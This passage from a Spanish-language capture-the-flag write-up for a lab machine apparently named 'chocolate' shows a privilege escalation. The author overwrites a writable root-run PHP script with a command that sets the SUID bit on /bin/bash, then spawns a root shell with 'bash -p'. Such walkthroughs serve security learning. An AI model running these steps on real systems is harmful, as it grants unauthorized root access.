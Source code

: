 ```bash
ls -l /opt/script.php
```

![[20250803173050.png]](chocolate-images/20250803173050.png)

ahi vemos que chocolate tiene permisos de escritura sobre el archivo asi que vamos a inyectarle una orden maliciosa

```bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

con esto haremos que el bianrio /bin/bash tenga permisos SUID por lo que podremos usarlo como root y asi escalar los privilegios

si revisamos el binario /bin/bash podremos ver que ahora tiene permisos SUID

![[20250803173313.png]](chocolate-images/20250803173313.png)

asi que utilizamos el comando 

```bash
bash -p
```

![[20250803173353.png]](chocolate-images/20250803173353.png)

y ya tendríamos acceso a la maquina como root


# Extra
